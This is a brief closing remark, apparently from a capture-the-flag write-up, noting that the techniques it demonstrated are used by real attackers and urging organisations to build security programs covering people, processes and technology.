The techniques demonstrated in this CTF environment are commonly used by real attackers. Organizations must implement comprehensive security programs that address people, processes, and technology to effectively defend against these threats.
